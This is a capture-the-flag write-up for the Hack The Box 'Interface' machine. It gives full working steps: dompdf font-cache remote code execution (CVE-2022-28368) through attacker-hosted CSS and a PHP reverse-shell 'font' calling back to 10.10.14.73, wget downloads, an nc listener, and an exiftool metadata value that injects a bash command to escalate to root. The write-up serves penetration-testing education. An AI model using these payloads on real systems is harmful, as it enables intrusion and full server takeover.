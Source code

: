 ```yaml
---
title: "Hack The Box - Interface [Medium]"
date: 2023-02-14T02:01:27+03:00
draft: true
description: 
---
```


The most important in this machine would be the enumeration, it exploits vulnerabilities like:
- [CVE-2022-28368](https://snyk.io/blog/security-alert-php-pdf-library-dompdf-rce/)
- [Executing files with sudo privileges](https://book.hacktricks.xyz/linux-hardening/privilege-escalation#sudo-and-suid)

## Recon 

I started with just the website `interface.htb` where there isn't much going on, from what I gathered I saw that it was a Next.js application, but the interesting thing there were the headers.

```http
HTTP/1.1 200 OK
Server: nginx/1.14.0 (Ubuntu)
Date: Tue, 14 Feb 2023 08:44:41 GMT
Content-Type: text/html; charset=utf-8
Connection: close
Content-Security-Policy: script-src 'unsafe-inline' 'unsafe-eval' 'self' data: https://www.google.com http://www.google-analytics.com/gtm/js https://*.gstatic.com/feedback/ https://ajax.googleapis.com; connect-src 'self' http://prd.m.rendering-api.interface.htb; style-src 'self' 'unsafe-inline' https://fonts.googleapis.com https://www.google.com; img-src https: data:; child-src data:;
X-Powered-By: Next.js
ETag: "i8ubiadkff4wf"
Vary: Accept-Encoding
Content-Length: 6359
```

I saw the CSP header which has a bunch of websites in, and frankly I didn't spot the subdomain at first, but that was the next pivoting point `http://prd.m.rendering-api.interface.htb`.

Going to the subdomain, you are greeted by a single `File not Found` text with a 404 status. Here comes the tricky part, the usual reconning using `ffuf,feroxbuster` and such, are ignoring the 404 status over the things it finds, and it's tricky to set something that is working for this particular case.

```
$ ffuf -w ~/Tools/SecLists/Discovery/Web-Content/common.txt -u http://prd.m.rendering-api.interface.htb/FUZZ -mc all -fs 0
```

I found several endpoints that are returning more than just 404.

```
api/experiments/configurations [Status: 404, Size: 50, Words: 3, Lines: 1...
api/experiments         [Status: 404, Size: 50, Words: 3, Lines: 1, Duration: 
api                     [Status: 404, Size: 50, Words: 3, Lines: 1, Duration: 
vendor                  [Status: 403, Size: 15, Words: 2, Lines: 2, Duration: 
```

Using `curl`, I found some API responses over those endpoints.

```http
$ curl -i http://prd.m.rendering-api.interface.htb/api/                                  
HTTP/1.1 404 Not Found
Server: nginx/1.14.0 (Ubuntu)
Date: Tue, 14 Feb 2023 08:53:49 GMT
Content-Type: application/json
Transfer-Encoding: chunked
Connection: keep-alive

{"status":"404","status_text":"route not defined"}
```

Then I began enumerating the API, by filtering the 404 using a GET request. 

The tricky thing is that you must try to use all the methods `GET,POST,PUT,DELETE` on everything. That could have been easier with `feroxbuster` but the thing is that on the `feroxbuster` tool there isn't an `-mc all` option which matches all the response codes and I had to do it manually with `ffuf`.

This is what I've used to find another pivot point.

```
$ ffuf -w ~/Tools/SecLists/Discovery/Web-Content/big.txt -u http://prd.m.rendering-api.interface.htb/api/FUZZ -mc all -fs 50 -X POST
...
html2pdf                [Status: 422, Size: 36, Words: 2, Lines: 1...
```

I found other stuff like `composer,dumpdf` before that and I started to search some exploits for `dumpdf` since I thought that would be the next pivot point and found this PoC of an exploit: https://github.com/positive-security/dompdf-rce.

The next thing to figure out was how to pass the file to that endpoint. While I tried to just send the file without any parameters, it returns `missing parameters` so I had to explore the `dompdf` implementations. The parameters that `dompdf` uses are just two. 

```php
$dompdf->loadHtml($html); 
$dompdf->setPaper('A4', 'landscape');
$dompdf->render();
```

I know that this is an API, so it must accept some JSON, so I crafted some random payload which I admit I got really lucky.

```json
{
	"html": "<h1>test</h1>",
	"paper": "A4"
}
```

Because the response was `200 OK` and a binary with the attached PDF.

## Exploiting the `dumpdf RCE`

The `dumpdf` is apparently caching the fonts that it processes during the conversion of HTML to PDF. It stores them under `/vendor/dompdf/dompdf/lib/fonts/` folder. Earlier in my discovery I enumerated another possible pivoting point that however gave 403, which was `/vendor/dompdf/dompdf` so following the PoC I've crafted the following payload.

```http
POST /api/html2pdf HTTP/1.1
Host: prd.m.rendering-api.interface.htb
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.5359.125 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Content-Type: application/json
Connection: close
Content-Length: 47

{
	"html": "<link rel=stylesheet href='http://10.10.14.73:8000/syl.css'>",
	"paper": "A4"
}
```

```
# syl.css
@font-face {
    font-family:'syl';
    src:url('http://10.10.14.73:8000/syl.php');
    font-weight:'normal';
    font-style:'normal';
}
```

```
# syl.php, this is a legit font just with 1 line PHP on the bottom
<LEGIT FONT BINARY DATA>
<?php exec("/bin/bash -c 'bash -i > /dev/tcp/10.10.14.73/4444 0>&1'"); ?>
```

After that I execute the request, the server would try to get the CSS and the font from my server, and it would cache the font into the specified folder and after executing the request. I saw that it does exactly that:

```
# My Server logs
10.129.20.249 - - [14/Feb/2023 11:20:07] "GET /syl.css HTTP/1.0" 200 -
10.129.20.249 - - [14/Feb/2023 11:20:07] "GET /syl.php HTTP/1.0" 200 -
```

That means that we have our 'font' already cached on the server under the folder `/vendor/dompdf/dompdf/lib/fonts/` however what would be the name, because trying to execute `syl.php` wasn't yielding results. 

To figure that out I thought it might be several things, `md5(file), md5(url of the font), some_hashing_algo(file/url of the font)` so I had to research how it saves the fonts. Fortunately, the PoC gives us a clue of how is this working. The font file there is named `exploitfont_normal_3f83639933428d70e74a061f39009622.php` and I brute forced my way out of this by trying `syl_normal_` and `md5(file), md5(url of the font)` and the URL of the font was the right one, so I got a reverse shell with that. 

```
$ curl -i http://prd.m.rendering-api.interface.htb/vendor/dompdf/dompdf/lib/fonts/syl_normal_ee17d95350fea4e27875b56170439107.php
...
$ nc -lnvp 4444
listening on [any] 4444 ...
connect to [10.10.14.73] from (UNKNOWN) [10.129.20.249] 60822
pwd
/var/www/api/vendor/dompdf/dompdf/lib/fonts
```

With that and using `linpeas.sh` I could read the first flag which is located in `/home/dev/user.txt`.

## Gaining Root

This was a tricky one, and I got some help with it since I couldn't find how. I only found a script that was cleaning some cache files with the tag `Producer: dompdf` in the `/tmp` folder. The script is located here: `/usr/local/sbin/cleancache.sh`. I was pretty sure that this is the root pivot point, but I didn't know how to exploit it. 

I joined some discussions and one of the users mentioned the `# Bash’s white collar eval: [[ $var -eq 42 ]] runs arbitrary code too` - https://www.vidarholen.net/contents/blog/?p=716

I didn't know that you could do that, but after reading the article it was clear what I should do.

```
$ cd /tmp
$ mkdir syl
$ cd syl && wget http://10.10.14.73:8000/admin.sh
$ chmod +x ./admin.sh
$ wget http://10.10.14.73:8000/test.pdf
$ exiftool -Producer='a[$(/tmp/syl/admin.sh>&2)]+42' test.pdf
< -Producer='a[$(/tmp/syl/admin.sh>&2)]+42' test.pdf
    1 image files updated
$ /usr/local/sbin/cleancache.sh
/usr/local/sbin/cleancache.sh
chmod: changing permissions of '/bin/bash': Operation not permitted
chmod: changing permissions of '/bin/bash': Operation not permitted
$ /bin/bash -p
bash-4.4# cat /root/root.txt
```